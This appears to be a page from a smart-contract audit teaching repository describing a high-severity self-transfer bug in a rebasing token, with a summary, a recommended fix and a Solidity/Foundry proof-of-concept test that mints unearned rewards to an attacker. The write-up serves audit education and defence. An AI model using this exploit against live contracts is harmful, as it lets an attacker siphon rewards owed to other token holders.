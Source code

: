 # ETAAcademy-Adudit: 2. Transfer

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>02. Transfer</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>dos</th>
          <td>transfer</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [High] Anyone can steal all distributed rewards

### Self-transfer

- Summary: By executing a self-transfer of tokens while in rebase, an attacker can mint additional tokens for themselves, effectively stealing all distributed rewards until that point. This occurs due to a discrepancy in updating share balances during the transfer process, leading to an incorrect calculation of token balances.
- Impact & Recommendation: Consequently, an attacker can repeatedly exploit this flaw to siphon off rewards intended for other users.To mitigate this issue, preventing self-transfers is recommended to prevent further exploitation and potential loss of funds.
  🐬: [Source](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/991) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```solidity

  function testSelfTransfer() public {
    token.mint(address(this), 100e18);

    // Mint some tokens to bob and alice
    token.mint(alice, 10e18);
    token.mint(bobby, 10e18);
    // Bob enters the rebase since he wants to earn some profit
    vm.prank(bobby);
    token.enterRebase();
    // Tokens are distributed among all rebase users
    token.distribute(10e18);
    // Nobody claims the rebase rewards for 10 days - just for an example
    // Alice could frontrun every call that changes the unmintedRebaseRewards atomically
    // and claim all the rewards for herself
    vm.warp(block.timestamp + 10 days);
    // --------------------- ATOMIC TX ---------------------
    vm.startPrank(alice);
    token.enterRebase();
    uint256 token_balance_alice_before = token.balanceOf(alice);
    // Here the max she could transfer and steal is the unmintedRebaseRewards() amount
    // but we are using 3e18 just for an example as 3e18 < unmintedRebaseRewards()
    // since there is no public getter for unmintedRebaseRewards
    token.transfer(alice, 3e18);
    token.exitRebase();
    vm.stopPrank();
    uint256 token_balance_alice = token.balanceOf(alice);
    // --------------------- END ATOMIC TX ---------------------
    console.log("Token balance alice before : ", token_balance_alice_before);
    console.log("Token balance alice after  : ", token_balance_alice);
    console.log("--------------------------------------------------");
    console.log("Alice profit credit        : ", token_balance_alice - token_balance_alice_before);
  }


  ```

  </details>
